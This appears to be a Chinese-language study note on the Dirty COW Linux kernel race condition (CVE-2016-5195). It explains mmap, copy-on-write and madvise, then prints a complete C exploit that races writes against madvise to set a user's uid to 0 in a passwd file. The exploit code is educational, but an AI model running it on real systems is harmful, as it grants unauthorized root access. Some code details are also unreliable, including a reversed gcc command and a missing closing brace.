

[toc]

## 前言

来源：[《Computer Security》A Hands-on Approach](https://www.handsonsecurity.net/)   — Wenliang Du

所有的代码/文档见github：https://github.com/da1234cao/computer_security

书上的内容介绍比较简单，这篇文档也是如此。

当然，也可以参考同类有些难度的文章(这两篇文章，我没有看）：

[CVE-2016-5195漏洞分析与复现](https://xz.aliyun.com/t/7561) 、[利用dirty cow（脏牛）漏洞的提权尝试 ](https://zerokeeper.com/penetration/the-use-of-dirty-cow-dirty-cattle-loopholes-in-the-right-to-try.html)

<br>

## 1. 摘要&&总结

偷个懒。。

> Dirty Cow(CVE-2016-5195)是一个内核竞争提权漏洞，之前阿里云安全团队在先知已经有一份漏洞报告[脏牛（Dirty COW）漏洞分析报告——【CVE-2016-5195】](https://xz.aliyun.com/t/450)，这里我对漏洞的函数调用链和一些细节做了补充，第一次分析Linux kernel CVE,个人对内核的很多机制不太熟，文章有问题的地方恳请各位师傅不吝赐教。


<br>

## 2. 准备工作

在这之前，需要理解竞争条件漏洞，参考：[Race_Condition_Vulnerability](https://blog.csdn.net/sinat_38816924/article/details/106931405)

### 2.1 mmap函数

参考：[C语言mmap()函数：建立内存映射](http://c.biancheng.net/cpp/html/138.html) + man mmap + [mmap和常规文件操作的区别](https://www.cnblogs.com/huxiao-tee/p/4660352.html?utm_source=tuicool&utm_medium=referral) + [Cache 和 Buffer 都是缓存，主要区别是什么？](https://www.zhihu.com/question/26190832)

[mmap和常规文件操作的区别](https://www.cnblogs.com/huxiao-tee/p/4660352.html?utm_source=tuicool&utm_medium=referral) 介绍的有点问题，注意它的评论区。我也没有清楚明白，暂时不妨碍理解罢了。

#### 2.1.1 mmap函数应用

我们先看看该函数如何使用，再谈其背后的机制。

```c
/**
 * mmap function example
 * gcc -o mmap_eaxmple mmap_eaxmple.c
*/

#include <stdio.h>
#include <sys/types.h>  
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <string.h>

int main(void){
    struct stat st;
    void *map;
    char read_contents[30]={0};
    char *new_contents = "mmap function example\n";

    int f = open("./zzz", O_RDWR);
    fstat(f,&st);
    
    /*将整个文件映射到内存*/
    map = mmap(NULL,st.st_size,PROT_READ|PROT_WRITE,MAP_SHARED,f,0);

    if(map == MAP_FAILED)
        return 0;
    
    /*从映射内存中读取文件内容*/
    // memcpy(read_contents,map,18);
    // printf("read_contents : %s \n",read_contents);
    // printf("firt line : %s  \n",(char *)map);

    //从文件中，读取一行；一行超过20,取出前20
    FILE *fp = fopen("./zzz","r");
    if(fp == NULL){
        printf("open file failed.");
        return 0;
    }
    fgets(read_contents,sizeof(read_contents),fp);
    fclose(fp);
    printf("first line : %s\n",read_contents);

    /*通过映射内存，向文件中写入内容*/
    memcpy(map,new_contents,strlen(new_contents));

    munmap(map,st.st_size);
    close(f);

    return 0;
```

<br>

#### 2.2.2 mmap和常规文件操作的区别

1. read()和write()系统调用，都将陷入内核，将数据从硬盘-->页缓冲区-->内核空间；再从内核空间拷贝到用户空间。(页缓存，解决IO读取慢的问题)
2. mmap函数，也会导致陷入内核，但它仅建立用户虚拟地址空间和文件的映射关系（虚拟地址映射到物理地址，物理页具体内容没有加载；）。当进程访问这片内存的时候，发生缺页中断，将文件内容-->页缓冲区-->y用户态物理空间。
3. mmap之所以快，是因为建立了物理页到用户进程的虚地址空间映射，以读取文件为例，避免了页从内核态拷贝到用户态。
4. 总体来说，**mmap在进程的虚拟地址空间中创建一个新的映射。简而言之，它将大块文件/设备内存/任何内容映射到进程的空间，以便仅通过访问内存即可直接访问内容。**
5. 真的明白了吗？非也。上面的观点结合起来就是，mmap可以代替read，而且更好？read函数至今存在，可能有其存在的理由。

<br>

### 2.2 Copy-on-Write机制

参考：[COW奶牛！Copy On Write机制了解一下](https://juejin.im/post/5bd96bcaf265da396b72f855)

简单理解就是，多个进程起初共享一段内存（不同的进程有不同的虚拟地址空间，虚拟地址映射在相同的物理页，便共享同一段内存了）。当有个进程要对该内存进行写操作的时候，复制一份到其他物理页，该进程的虚拟地址空间的页表映射也修改，使得映射到新的物理页。

即，复制的操作推迟到需要写的时候才执行。详细见上面链接。

<br>

#### 2.2.1 mmap函数MAP_PRIVATE参数

<font color=red>COW机制：复制内容到新内存 --> 修改页表映射，映射到新内存 --> 在新内存进行写操作。</font>



<br>

#### 2.2.2 madvise函数

参考：[/proc/self/](https://www.jianshu.com/p/3fba2e5b1e17) +  [C语言lseek()函数：移动文件的读写位置](http://c.biancheng.net/cpp/html/236.html) + [sizeof与strlen的区别](https://www.jianshu.com/p/e1ce19da9b82) + [[转]mmap和madvise的使用](https://www.cnblogs.com/wlzy/p/10665472.html)

当使用madvise函数中的MADV_DONTNEED参数。进程会放弃已经复制的内存，修改页表映射重新执行原来的内存空间。

```c
/**
 * 文件名：cow_map_readonly_file.c
 * 编译：gcc -o cow_map_readonly_file.c cow_map_readonly_file
 * 作用：了解copy-on-write(COW)机制
 * 操作：
 * 1. 使用/proc/self/mem对只读内存进行写操作。由于COW机制，并没有修改原内存，是复制到新内存。
 * 2. 之后使用madvise，放弃已修改的新内存
*/

#include <stdio.h>
#include <sys/types.h>  
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <string.h>

int main(void){
    struct stat st;
    char read_content[20]={0};
    char *new_content = "This is new content";

    int f = open("./zzz",O_RDONLY);//对于others,文件仅有读权限 
    fstat(f,&st);

    void *map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);//将文件与内存映射

    int fm = open("/proc/self/mem",O_RDWR);//打开该进程内存对应的伪文件

    lseek(fm,(__off_t)map,SEEK_SET); //定位读写位置到map，我们可以通过内存直接修改文件内容

    /**
     * 将内容写到只读文件？否
     * COW机制:复制一份到内存中--》页表映射到新内存位置--》内容也写入新内存位置
     * 文件映射的内存被标识为COW，在写之前确实检查了，所及执行后面的复制操作。
    */
    write(fm,new_content,strlen(new_content)); 

    
    // memcpy(read_content,map,strlen(read_content));//读取部分新内存位置内容
    memcpy(read_content,map,sizeof(read_content)-1);//读取部分新内存位置内容
    printf("content after write: %s \n",read_content);

    madvise(map,st.st_size,MADV_DONTNEED);//丢弃新的内存位置，map指向原来位置

    memcpy(read_content,map,strlen(read_content));//读取部分原来内存位置内容
    printf("content after madvise: %s \n",read_content);


    return 0;
}
```

<br>

## 3. Dirty COW 

1. COW机制：复制内容到新内存 --> 修改页表映射，映射到新内存 --> 在新内存进行写操作。
2. 当使用madvise函数中的MADV_DONTNEED参数。进程会放弃已经复制的内存，修改页表映射重新执行原来的内存空间。
3. 所以，我们只需要，按照下面的顺序，便可以利用这里竞争条件漏洞(检查和执行分离)。
4. 复制内容到新内存 --> 修改页表映射，映射到新内存 -->madvise,放弃已经复制的内存，修改页表映射重新执行原来的内存空间 --> 在内存进行写操作，便对只读文件进行了写操作。


参考文章：[Pthread线程简单使用](https://www.jianshu.com/p/a49a50f602c0) + [linux C语言多线程编程，如何传入参数，如何获得返回值](https://blog.popkx.com/linux-c-multi-thread-programming-how-to-input-parameters-and-how-to-aquire-return-values/) + [linux查看进程所有子进程和线程](https://blog.csdn.net/uestczshen/article/details/74091892)

```c
/**
 * 文件名: cow_attack.c
 * 编译： gcc -pthread -o cow_attack cow_attack.c
 * 描述： 
 * main thread: 将只读文件/etc/passwd.bak映射进入内存
 * write thread: 对该内存进行写操作，触发COW机制；复制--》页表修改--》写操作
 * madvise thread: 放弃复制的内存，修改页表指回原来只读文件对应的内存
 * 作用：将用户dacao的uid改成0(root)
*/

#include <stdio.h>
#include <sys/types.h>  
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <string.h>
#include <pthread.h>

struct file_info
{
    char *map; //文件映射到内存的起始位置
    off_t file_size;// 文件映射到内存的大小
};


void *writeThread(void *arg){
    char *position = arg;
    char *new_content = "dacao:x:0";

    /*对/etc/passwd.bak的内存，进行写入操作，出发COW*/
    int f = open("/proc/self/mem",O_RDWR);
    while (1){
        lseek(f,(__off_t)position,SEEK_SET);
        write(f,new_content,strlen(new_content));
    }
    
}


void *madviseThread(void *arg){
    struct file_info *pth2_arg = (struct file_info*)arg;
    while (1){
        madvise(pth2_arg->map,pth2_arg->file_size,MADV_DONTNEED);//丢弃新的内存位置，map指向原来位置
    }
    
}


int main(void){
    struct stat st;

    /*将/etc/passwd.bak映射进入内存*/
    int f = open("/etc/passwd.bak",O_RDONLY);
    fstat(f,&st);
    void *map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

    //传递给线程的变量
    char *position = strstr(map,"dacao:x:1000");
    struct file_info pth2_arg;
    pth2_arg.file_size = st.st_size;
    pth2_arg.map = map;

    pthread_t pth1,pth2;
    pthread_create(&pth1,NULL,writeThread,position);
    pthread_create(&pth2,NULL,madviseThread,&pth2_arg);

    pthread_join(pth1,NULL);
    pthread_join(pth2,NULL);

    return 0;
}
```

<br>

## 4. 结果

这个漏洞已经修复，我也偷懒没有去虚拟机安装一个旧版本的内核进行尝试。

可以参看：[CVE-2016-5195漏洞分析与复现](https://xz.aliyun.com/t/7561)


<br>

## 参考文章汇总

[Race_Condition_Vulnerability](https://blog.csdn.net/sinat_38816924/article/details/106931405)

[C语言mmap()函数：建立内存映射](http://c.biancheng.net/cpp/html/138.html) + man mmap + [mmap和常规文件操作的区别](https://www.cnblogs.com/huxiao-tee/p/4660352.html?utm_source=tuicool&utm_medium=referral) + [Cache 和 Buffer 都是缓存，主要区别是什么？](https://www.zhihu.com/question/26190832)

[COW奶牛！Copy On Write机制了解一下](https://juejin.im/post/5bd96bcaf265da396b72f855)

[/proc/self/](https://www.jianshu.com/p/3fba2e5b1e17) +  [C语言lseek()函数：移动文件的读写位置](http://c.biancheng.net/cpp/html/236.html) + [sizeof与strlen的区别](https://www.jianshu.com/p/e1ce19da9b82) + [[转]mmap和madvise的使用](https://www.cnblogs.com/wlzy/p/10665472.html)

[Pthread线程简单使用](https://www.jianshu.com/p/a49a50f602c0) + [linux C语言多线程编程，如何传入参数，如何获得返回值](https://blog.popkx.com/linux-c-multi-thread-programming-how-to-input-parameters-and-how-to-aquire-return-values/) + [linux查看进程所有子进程和线程](https://blog.csdn.net/uestczshen/article/details/74091892)

[CVE-2016-5195漏洞分析与复现](https://xz.aliyun.com/t/7561) 、[利用dirty cow（脏牛）漏洞的提权尝试 ](https://zerokeeper.com/penetration/the-use-of-dirty-cow-dirty-cattle-loopholes-in-the-right-to-try.html)

